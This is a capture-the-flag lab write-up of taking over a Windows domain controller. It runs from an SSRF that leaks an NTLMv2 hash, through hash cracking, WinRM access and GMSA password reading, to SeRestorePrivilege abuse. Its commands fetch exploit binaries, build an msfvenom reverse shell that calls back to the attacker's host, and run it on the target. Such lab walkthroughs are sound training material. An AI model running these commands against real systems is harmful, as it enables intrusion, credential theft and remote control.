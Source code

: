#Pwned #AD #Windows #SSRF #TokenAbuse #LateralMovement
```IP
192.168.167.165
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.167.165 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 125 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-12-19 08:36:09Z)
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 125
464/tcp   open  kpasswd5?     syn-ack ttl 125
593/tcp   open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 125
3268/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 
|_http-server-header: Microsoft-HTTPAPI/2.0          
|_http-title: Not Found
8080/tcp  open  http          syn-ack ttl 125 Werkzeug httpd 2.0.1 (Python 3.9.0)
|_http-server-header: Werkzeug/2.0.1 Python/3.9.0
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Super Secure Web Browser       
9389/tcp  open  mc-nmf        syn-ack ttl 125 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC              
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC      
49703/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows  
```
## SMB
I usually scan smb service as soon as I see it in case there are some open shares.
```
nxc smb 192.168.167.165 -u '' -p '' 
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219093954.png?raw=true)

But this does not seem to be the case.
## HTTP 8080
Here we are presented with a web browser that doesn't connect to internet. Let's see if it connects to our machine. 
# Exploitation

We start responder in our local machine:
```
sudo responder -I tun0
```
And then we will try to connect to our machine to see if we can exploit a Server Side Request Forgery (SSRF) attack:
```
http://192.168.167.165:8080/?url=http://192.168.45.246/test
```
Ineed we receive a NTLMv2 hash, which verifies that the target is vulnerable to a SSRF attack:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094300.png?raw=true)

Let's try to crack it with jhon:
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/enox.hash
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094313.png?raw=true)

Success! Now we have the following credentials:
```
enox:california
```
## WINRM
We can use our discovered credentials with nxc to assess that we have indeed access to the machine:
```
nxc winrm 192.168.167.165 -u 'enox' -p 'california'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094548.png?raw=true)

# PrivEsc

## Lateral Movement
We will use evil-winrm to connect to the target machine and get remote code execution:
```
evil-winrm -i 192.168.167.165 -u enox -p 'california'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094828.png?raw=true)

As enox we can navigate to its desktop and retrieve the local flag as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219094900.png?raw=true)

However we still need to get access as Administrator. In this directory there is too an `application` directory and a `todo.txt` file:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219095142.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219095355.png?raw=true)

But they do not seem relevant.
## Automated Tools
### Bloodhound

After some manual enumeration we can run bloodhound:
```bash
bloodhound-python -d heist.offsec -c all -u enox -p 'california' -ns 192.168.167.165 --zip
```
We mark enox user as owned and run `Shortest Paths to Domain Admins from Owned Principals`:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219100927.png?raw=true)

In order to exploit the DCSync vulnerability we are presented with we would have to be a local admin, and we are not. Checking the `Outbound Object Control` of our user we notice an odd Group Delegated Object Control, which can be exploited following the Bloodhound recommendations:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102257.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102321.png?raw=true)

It is affecting specifically the user svc_apache. We download an already compiled binary as shown below:
```powershell
iwr -uri https://github.com/expl0itabl3/Toolies/raw/refs/heads/master/GMSAPasswordReader.exe -outfile GMSAPasswordReader.exe
```
And then run the exploit:
```powershell
.\GMSAPasswordReader.exe --accountname svc_apache
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219102530.png?raw=true)

```
C9C9F97308956B4AEDD53C1351F47A84
```

Because svc_apache is a service account we will type a dollar sign at the end of it:
```bash
evil-winrm -i 192.168.167.165 -u svc_apache$ -H C9C9F97308956B4AEDD53C1351F47A84
```
And now we have access again as svc_apache. It contains a ps1 script in its Documents folder which seems to add the `SeRestorePrivilege`.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219103918.png?raw=true)

And if we check it with `whoami /priv` it is enabled indeed:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219103952.png?raw=true)

There is an already precompiled exploit for this token which we can download with the following command:
```powershell
iwr -uri https://github.com/dxnboy/redteam/raw/refs/heads/master/SeRestoreAbuse.exe -outfile SeRestoreAbuse.exe
```

This exploit executes another file with higher permissions, so we will create a reverse shell file with msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.246 LPORT=4444 -f exe > rev.exe
```
And download it to the target machine aswell:
```powershell
iwr -uri http://192.168.45.246:8000/rev.exe -outfile shell.exe
```
And perform the complete exploit as shown below:
```powershell
.\SeRestoreAbuse.exe C:\Users\svc_apache$\Documents\shell.exe
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219105244.png?raw=true)

And upon execution we get NT Authority\System access, and therefore we can retrieve the proof.txt flag!

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219105350.png?raw=true)

Pwned!
